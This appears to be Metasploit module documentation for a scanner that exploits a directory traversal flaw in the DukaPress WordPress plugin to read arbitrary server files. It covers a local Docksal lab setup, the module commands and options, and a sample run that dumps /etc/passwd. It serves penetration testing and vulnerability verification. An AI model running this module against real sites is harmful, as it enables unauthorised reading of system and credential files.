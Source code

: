 ## Description

This module exploits a directory traversal vulnerability in WordPress Plugin
"DukaPress" version 2.5.2, allowing to read arbitrary files with the
web server privileges.

## Vulnerable Application

### DukaPress <= 2.5.3
* [https://wordpress.org/plugins/dukapress](https://wordpress.org/plugins/dukapress)
* [Plugin v2.5.3](https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip)

### Setup using Docksal
Install [Docksal](https://docksal.io/)

Create a new Wordpress installation using `fin project create`

```
➜  ~ fin project create                  
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf-wp

2. What would you like to install?
  PHP based
    1.  Drupal 8
    2.  Drupal 8 (Composer Version)
    3.  Drupal 7
    4.  Wordpress
    5.  Magento
    6.  Laravel
    7.  Symfony Skeleton
    8.  Symfony WebApp
    9.  Grav CMS
    10. Backdrop CMS

  Go based
    11. Hugo

  JS based
    12. Gatsby JS
    13. Angular

  HTML
    14. Static HTML site

Enter your choice (1-14): 4

Project folder:   /home/weh/dev/msf-wp
Project software: Wordpress
Project URL:      http://msf-wp.docksal

Do you wish to proceed? [y/n]: y
Cloning repository...
Cloning into 'msf-wp'...
...
3. Installing site
 Step 1  Initializing stack...
Removing containers...
...
Starting services...
Creating network "msf-wp_default" with the default driver
Creating volume "msf-wp_cli_home" with default driver
Creating volume "msf-wp_project_root" with local driver
Creating volume "msf-wp_db_data" with default driver
Creating msf-wp_db_1  ... done
Creating msf-wp_cli_1 ... done
Creating msf-wp_web_1 ... done
Connected vhost-proxy to "msf-wp_default" network.
Waiting for project stack to become ready...
 Step 2  Initializing site...
 Step 2  Generating wp-config.php...
Success: Generated 'wp-config.php' file.
 Step 3  Installing site...
msmtp: envelope-from address is missing
Success: WordPress installed successfully.

Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
➜  ~ 
```

Download the wordpress plugin

```
➜  ~ cd msf-wp/wp-content/plugins
➜  plugins wget https://downloads.wordpress.org/plugin/dukapress.2.5.3.zip
➜  plugins unzip dukapress.2.5.3.zip

```

Login and click on DukaPress "Activate" Link

```
http://msf-wp.docksal/wp-admin/plugins.php
user: admin
pass: admin
```

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_dukapress_file_read```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set VHOST [IP]```
4. Do: ```run```

## Options

**RHOSTS**

The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'

**VHOST**

HTTP server virtual host

**FILEPATH**

The path to the file to read (default: /etc/passwd)

**DEPTH**

Traversal Depth (to reach the root folder) (default: 7)


## Scenarios

````
msf5 > use auxiliary/scanner/http/wp_dukapress_file_read
msf5 > set RHOST msf-wp.docksal
RHOST => msf-wp.docksal
msf5 > set VHOST msf-wp.docksal
VHOST => msf-wp.docksal
msf5 > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/bash

[+] File saved in: /home/weh/.msf4/loot/20191009203058_default_192.168.64.100_dukapress.file_560342.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
